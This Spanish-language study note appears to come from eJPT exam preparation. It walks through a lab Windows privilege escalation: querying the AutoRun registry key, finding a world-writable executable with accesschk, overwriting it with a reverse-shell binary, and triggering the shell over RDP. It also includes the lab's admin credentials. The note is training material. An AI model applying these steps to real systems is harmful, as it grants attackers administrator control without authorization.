 - Consulta el registro de ejecutables de AutoRun:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

- Usando accesschk.exe, tenga en cuenta que uno de los ejecutables de AutoRun es escribible por todos:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

```
- Copie el ejecutable reverse.exe que creó y sobrescriba el ejecutable AutoRun con él:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

- Inicie un oyente en Kali y luego reinicie Windows VM. Abre un nuevo PDR sesión para activar un shell inverso que se ejecuta con privilegios de administrador. No debería tener que autenticarse para activarlo, sin embargo, si la carga útil no se dispara, inicie sesión como administrador (admin/password123) para activarlo. ¡Tenga en cuenta que en un compromiso del mundo real, tendría que esperar a que un administrador inicie sesión por sí mismo!  

```
rdesktop 10.10.226.103
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Registry - AlwaysInstallElevated]]
[[Generate a Reverse Shell Executable]]
